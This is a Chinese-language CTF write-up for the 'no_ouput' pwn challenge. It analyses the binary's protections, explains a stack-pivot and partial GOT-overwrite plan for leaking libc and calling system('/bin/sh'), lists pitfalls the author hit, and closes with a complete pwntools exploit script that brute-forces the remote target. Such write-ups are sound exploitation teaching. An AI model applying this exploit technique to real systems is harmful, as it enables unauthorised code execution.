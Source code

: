 # W5 no ouput

~~肯定是把output的t漏了~~

## 文件分析

下载`no_ouput`, NX on, PIE off, Canary off, RELRO full  
ghidra分析为64位程序

## 逆向

没有输出函数，但是csu_init在，可以轻松控制寄存器，那么因为 read
函数离 write 函数很近，可以由此打印出read@got拿到libcBase，然后就能调
`system("/bin/sh")`

那么首先修改.bss上的read为write，栈迁移执行，然后再次栈迁移，在栈上放置
`system("/bin/sh")`  
要注意的是，由于write比read高不少，超过了0xFF，又已知ASLR不会改变末12位，
而改是一个字节一个字节改的，因此`read & 0xF000`这4位是赌的，每次有1/16的概率能中，
并不是执行脚本就能一次打下来的

## 踩过的坑

1. write函数是对系统调用的封装，因此开栈不大，可以放心迁移
2. system执行的参数在这题只能是libc里的shstr，在.bss上捏的就不行，
网上也搜不到结果，请懂的师傅发个discussion
3. read会读取字符直到换行符（前提是读取的字节不够），sleep再久也没用（recv可以打断输入，
这时可以不用换行符）
4. 网上写可以用`elf.search(str).next()`，实际上不行，库里只有__next__()魔法方法，
因此需要用next包裹，如`next(elf.search(str))`
5. 看准时间提交...虽然比赛是周日晚9点更新题目，但是结束是在早上9点...
做出来了没提交上:(

## EXPLOIT

```python
from pwn import *

def payload(lo):
    global sh
    if lo:
        sh = process('no_ouput')
        gdb.attach(sh, 'b system')
        libc = ELF('/usr/lib/libc.so.6')
    else:
        sh = remote('node4.buuoj.cn', 29390)
        libc = ELF('libc-2.31.so')
    elf = ELF('no_ouput')
    popRdi = 0x401253
    popRsiR15 = 0x401251
    readPlt = elf.plt['read']
    readGot = elf.got['read']
    readBss = 0x404050
    bssHigh = 0x404800
    leaveRet = 0x4011ea

    # payload 1, pivot stack to readBss and read in shstr, stack pivot instruction & patch from read to write
    sh.sendline(b'0'*112 + p64(readBss - 0x30) + p64(popRsiR15) + p64(bssHigh - 16) + p64(0) + p64(readPlt) +
        p64(popRsiR15) + p64(readBss + 8) + p64(0) + p64(readPlt) +
        p64(popRsiR15) + p64(readBss - 0x30) + p64(0) + p64(readPlt) + p64(leaveRet))
    print('p1 send')
    if lo & 0b10:
        sleep(5) # wait for gdb to make manual debug easier
    else:
        sleep(0.5)

    # payload 2, make "/bin/sh" on .bss
    sh.sendline(b'/bin/sh'.ljust(16, b'\0') + p64(popRdi) + p64(0) + p64(popRsiR15) + p64(bssHigh + 0x30) + p64(0) + p64(readPlt))
    print('p4 send')
    sleep(0.5)

    # payload 3, stack pivot instruction, after this procedure, rip = bssHigh
    sh.sendline(p64(leaveRet))
    print('p3 send')
    sleep(0.5)
    
    # payload 4, patch read, if 0b10 digit debug on, read real readAddr from user
    if lo & 0b10:
        patch = p16(int(input('read addr:'), 16) - 0x520 + 0x1020)
    elif lo:
        patch = p16(0x8020)
    else:
        patch = p16(0x3060)
    sh.send(p64(bssHigh - 8) + p64(popRdi) + p64(1) + p64(popRsiR15) + p64(readGot) + p64(0) + patch)
    print('p2 send')
    sleep(0.5)

    try:
        libcBase = u64(sh.recv(6) + b'\0\0') - libc.symbols['read']
        sh.recv() # skip remaining chars from write() above
        system = libcBase + libc.symbols['system']
        shstr = libcBase + next(libc.search(b'/bin/sh')) # in python 3, use next() magic func like this

        # payload 5, write systemAddr on .bss
        # sh.sendline(p64(popRdi) + p64(bssHigh - 16) + p64(system)) # shstr on .bss can't open shell!
        sh.sendline(p64(popRdi) + p64(shstr) + p64(system))
        print('p5 send')
        sh.interactive()
        sh.close()
        return 0
    except EOFError:
        # in this case, patch is incorrect, leading to SIGSEGV
        print('addr not match')
        sh.close()
        return 1

while payload(0):
    pass
```

Done.

